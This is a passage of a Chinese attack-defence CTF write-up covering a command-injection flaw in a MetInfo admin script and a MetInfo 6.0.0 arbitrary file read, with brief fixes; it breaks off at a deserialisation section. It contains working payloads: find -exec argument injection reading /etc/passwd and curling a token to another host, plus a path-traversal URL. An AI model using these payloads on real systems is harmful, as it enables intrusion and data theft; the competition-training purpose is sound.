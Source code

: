 

## 解题步骤

我们通过seay得到`/admin/admin/getpassword.php`中存在危险函数，具体分析之后发现是业务逻辑代码，直接分析发现进入该业务逻辑条件十分容易满足

```php
case 'debug':
    $file = addslashes($_POST['file']);
    system("find /tmp -iname ".escapeshellcmd($file));
    break;
```

最后构建payload如下，达到任意执行命令的目的

`action=debug&file=sth -or -exec cat /etc/passwd ; -quit`
获得flag
`action=debug&file=sth -or -exec curl http://10.0.1.2?token=WNHOMGGL  ; -quit`

## 防护方法
删除debug代码即可



# 8. 任意文件读取

## 解题步骤
该任意文件读取具体分析看文章
[Metinfo 6.0.0 任意文件读取漏洞](https://badcode.cc/2018/05/26/Metinfo-6-0-0-%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96%E6%BC%8F%E6%B4%9E/)


`http://101.71.29.6:10025/include/thumb.php?dir=...././/http...././/...././/...././/...././/...././/etc/passwd`

但是在AWD模式下比较鸡肋


## 防护方法
上过滤代码
指定目录


# 9. 反序列化漏洞造成任意命令执行

序列化 存档    
什么是反序列化  读档  

什么是反序列化漏洞
[WEB漏洞文章集合](https://chybeta.github.io/2017/08/19/Web-Security-Learning/)

 
## 解题步骤

